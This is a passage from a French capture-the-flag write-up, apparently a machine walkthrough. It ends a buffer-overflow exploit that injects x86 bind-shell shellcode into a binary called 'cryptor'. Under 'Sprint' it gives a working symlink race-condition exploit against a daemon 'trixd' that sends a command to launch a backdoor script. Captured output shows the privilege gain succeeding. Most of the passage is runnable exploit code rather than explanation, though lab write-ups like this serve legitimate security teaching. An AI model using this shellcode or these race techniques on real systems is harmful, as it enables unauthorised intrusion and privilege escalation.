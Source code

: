 ```python
    "\x58"                  # pop %eax
    "\xcd\x80"              # int $0x80
    "\xb3\x04"              # mov $0x4,%bl
    "\xeb\xc9"             # jmp <_acceptloop>
)
filename = ""
for letter in ascii_letters[:116/4]:
    if ord(letter) == 0x76:
        filename += struct.pack("<I", 0x804a080)
        continue
    filename += letter * 4

print(len(filename))

print("./cryptor", '$' + repr(filename), '$' + repr(shellcode))

p = subprocess.Popen(
    ["./cryptor", filename, shellcode],
    env={},
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    shell=False
)

print("Now try to connect to local port 31337")
```

Sprint
------

Miantenant que l'on a accès à */mnt/usb.key.txt* on peut exploiter la race condition dans *trixd*. Ça marche au premier essai :  

```python
import socket
import os

sock = socket.socket()
# trixd ne vérifie pas l'absence du fichier, le check passe s'il est absent
os.unlink("/mnt/usb/key.txt")
sock.connect(("127.0.0.1", 7075))
# Met en place le symlink avant que le strcmp prenne place
os.symlink("/home/puck/key.txt", "/mnt/usb/key.txt")
sock.send("id; python /tmp/backdoor.py &\n")
buff = sock.recv(1024)
if "Incorrect" not in buff:
    print(buff)
```

```shellsession
$ python exploit_trixd.py
Authentication successful
uid=1001(puck) gid=1004(dev) groups=1001(puck)
```
